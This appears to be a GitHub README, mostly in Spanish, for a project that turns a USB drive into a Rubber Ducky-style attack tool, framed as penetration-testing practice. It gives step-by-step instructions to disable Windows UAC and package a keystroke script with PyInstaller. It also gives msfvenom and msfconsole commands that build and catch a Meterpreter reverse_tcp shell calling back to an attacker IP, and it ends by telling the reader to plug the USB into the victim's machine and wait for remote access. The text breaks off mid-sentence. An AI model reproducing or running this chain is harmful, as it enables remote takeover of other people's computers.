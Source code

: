 # Rubber-Ducky-Simulation
In this project, we simulate a Rubber Ducky using a standard USB drive with a Python script and autorun functionality. This allows us to replicate its keystroke execution capabilities for automated penetration testing. The project emphasizes scripting skills and highlights the security risks of USB devices in cybersecurity.

## Instrucciones de Uso

Primero, descargaremos los archivos del repositorio y los copiaremos en cualquier USB. Luego, editaremos los archivos según nuestras necesidades, ajustando los tiempos que consideremos adecuados para la ejecución de la secuencia de desactivación del archivo `teclas.py`. 

Es importante tener en cuenta que debemos desactivar el Control de Cuentas de Usuario (UAC) en el sistema Windows de la siguiente manera:

1. Abrir el **Panel de control**.
2. Ir a **Cuentas de usuario**.
3. Seleccionar **Cambiar configuración de Control de cuentas de usuario**.
4. Mover el control deslizante a **Nunca notificar**.
5. Hacer clic en **Aceptar** y reiniciar el sistema si es necesario.

Esta configuración permitirá que el archivo `teclas.py` se ejecute sin restricciones de permisos.

![image](https://github.com/user-attachments/assets/59126bcb-c0c4-48ff-81c1-20f607277a46)

## Instrucciones de Uso (Continuación)

Una vez desactivadas las restricciones de UAC y editado el código con los tiempos a nuestra conveniencia, procederemos a convertir el código en un ejecutable utilizando **PyInstaller**. 

Luego, en nuestra máquina atacante, crearemos el payload con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPAtacante LPORT=PuertoAtacante -f exe -o shell.exe
```
Una vez generado, copiaremos el payload en la USB

Si deseamos que la USB se ejecute automáticamente en el sistema de la víctima, es necesario que la máquina tenga instalado apo_usb_autorun debido a las restricciones de windows. Si no es así, tendremos que hacer doble clic manualmente en el archivo ejecutable teclas.exe.

Después de esto, nos pondremos en escucha en nuestra IP y puerto asignados en el payload con el siguiente comando:

```bash
msfconsole -e use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IPAtacante
set LPORT PuertoAtacante
run
```
Finalmente, insertaremos la USB en la máquina de la víctima y esperaremos el acceso remoto.


Recuerda reemplazar `IPAtacante` y `PuertoAtacante` con los valores correspondientes. También 
